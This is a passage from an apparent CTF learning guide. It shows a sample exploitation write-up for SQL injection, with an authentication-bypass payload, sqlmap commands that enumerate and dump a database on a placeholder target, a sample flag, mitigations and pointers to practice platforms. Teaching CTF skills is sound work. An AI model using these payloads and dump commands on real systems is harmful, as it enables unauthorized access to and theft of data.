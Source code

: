 ## 4. Exploitation Steps

**Step 1: Confirm SQLi**
```bash
# Test payload
Username: admin' OR '1'='1'--
Password: anything
Result: Successfully bypassed authentication
```

**Step 2: Extract Database**
```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test" --dbs
# Found databases: information_schema, ctf_db
```

**Step 3: Dump Tables**
```bash
sqlmap -u "..." -D ctf_db --tables
# Found table: secret_flags
```

**Step 4: Extract Flag**
```bash
sqlmap -u "..." -D ctf_db -T secret_flags --dump
# Retrieved: flag{sql_1nj3ct10n_m4st3r}
```

## 5. Flag
```
flag{sql_1nj3ct10n_m4st3r}
```

## 6. Screenshots
[Include screenshots of:]
- Vulnerable input
- SQLmap output
- Flag retrieval

## 7. Mitigation
- Use prepared statements (parameterized queries)
- Implement input validation
- Apply principle of least privilege
```

**PoC Tips**:
- Write as you go (don't wait until end!)
- Screenshot EVERYTHING
- Copy-paste commands/outputs
- Be clear and concise
- Show understanding, not just tool usage

---

## 📚 Learning Resources

### 🎮 Practice Platforms

**Beginner-Friendly**:
```
🌟 PicoCTF: https://picoctf.org/
   - Perfect for learning
   - Detailed hints
   - All categories

